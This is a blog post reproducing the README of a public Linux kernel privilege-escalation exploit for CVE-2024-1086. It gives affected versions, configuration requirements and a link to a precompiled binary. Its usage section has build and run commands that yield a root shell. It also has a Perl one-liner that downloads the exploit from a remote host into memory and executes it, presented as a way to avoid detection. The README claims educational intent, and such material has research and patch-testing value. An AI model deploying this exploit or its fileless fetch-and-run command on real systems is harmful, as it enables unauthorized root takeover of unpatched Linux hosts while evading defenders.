 ```yaml
---
title: CVE-2024-1086
date: 2024-04-09T12:18:50+08:00
draft: False
featuredImage: https://images.unsplash.com/photo-1711374630104-dca6e0149245?ixid=M3w0NjAwMjJ8MHwxfHJhbmRvbXx8fHx8fHx8fDE3MTI2MzYyMDV8&ixlib=rb-4.0.3
featuredImagePreview: https://images.unsplash.com/photo-1711374630104-dca6e0149245?ixid=M3w0NjAwMjJ8MHwxfHJhbmRvbXx8fHx8fHx8fDE3MTI2MzYyMDV8&ixlib=rb-4.0.3
---
```


# [Notselwyn/CVE-2024-1086](https://github.com/Notselwyn/CVE-2024-1086)

# CVE-2024-1086

Universal local privilege escalation Proof-of-Concept exploit for [CVE-2024-1086](https://nvd.nist.gov/vuln/detail/CVE-2024-1086), working on most Linux kernels between v5.14 and v6.6, including Debian, Ubuntu, and KernelCTF. The success rate is 99.4% in KernelCTF images.

https://github.com/Notselwyn/CVE-2024-1086/assets/68616630/a3d43951-94ab-4c09-a14b-07b81f89b3de

## Blogpost / Write-up

A full write-up of the exploit - including background information and loads of useful diagrams - can be found in the [Flipping Pages blogpost](https://pwning.tech/nftables/).


## Affected versions

The exploit affects versions from (including) v5.14 to (including) v6.6, excluding patched branches v5.15.149>, v6.1.76>, v6.6.15>. The patch for these versions were released in feb 2024. The underlying vulnerability affects all versions (excluding patched stable branches) from v3.15 to v6.8-rc1.

**Caveats:**
- The exploit does not work on v6.4> kernels with kconfig `CONFIG_INIT_ON_ALLOC_DEFAULT_ON=y` (including Ubuntu v6.5)
- The exploits requires user namespaces (kconfig `CONFIG_USER_NS=y`), that those user namespaces are unprivileged (sh command `sysctl kernel.unprivileged_userns_clone` = 1), and that nf_tables is enabled (kconfig `CONFIG_NF_TABLES=y`). By default, these are all enabled on Debian, Ubuntu, and KernelCTF. Other distro's have not been tested, but may work as well. Additionally, the exploit has only been tested on x64/amd64.
- The exploit may be *very* unstable on systems with a lot of network activity
	- Systems with WiFi adapter, when surrounded by high-usage WiFi networks, will be very unstable. 
	- On test devices, please turn off WiFi adapters through BIOS.
- The kernel panic (system crash) after running the exploit is a side-effect which deliberately hasn't been fixed to prevent malicious usage of the exploit (i.e. exploitation attempts should now be more noticable, and unpractical in real-world operations). Despite this, it still allows for a working proof-of-concept in lab environments, as the root shell is functional, and persistence through disk is possible.

## Usage

### Configuration

The default values should work out of the box on Debian, Ubuntu, and KernelCTF with a local shell. On non-tested setups/distros, please make sure the kconfig values match with the target kernel. These can be specified in [`src/config.h`](/src/config.h). If you are running the exploit on a machine with more than 32GiB physical memory, make sure to increase `CONFIG_PHYS_MEM`.
If you are running the exploit over SSH (into the test machine) or a reverse shell, you may want to toggle `CONFIG_REDIRECT_LOG` to `1` to avoid unnecessary network activity.

### Building

If this is impractical for you, there is an [compiled x64 binary](https://github.com/Notselwyn/CVE-2024-1086/releases/download/v1.0.0/exploit) with the default config.

```bash
git clone https://github.com/Notselwyn/CVE-2024-1086
cd CVE-2024-1086
make
```

Binary: `CVE-2024-1086/exploit`


### Running

Running the exploit is just as trivial:

```bash
./exploit
```

Fileless execution is also supported, in case of pentest situations where detections need to be avoided. However, Perl needs to be installed on the target:
```bash
perl -e '
  require qw/syscall.ph/;

  my $fd = syscall(SYS_memfd_create(), $fn, 0);
  system "curl https://example.com/exploit -s >&$fd";
  exec {"/proc/$$/fd/$fd"} "memfd";
'
```

## Disclaimer

The programs and scripts ("programs") in this software directory/folder/repository ("repository") are published, developed and distributed for educational/research purposes only. I ("the creator") do not condone any malicious or illegal usage of the programs in this repository, as the intend is sharing research and not doing illegal activities with it. I am not legally responsible for anything you do with the programs in this repository.
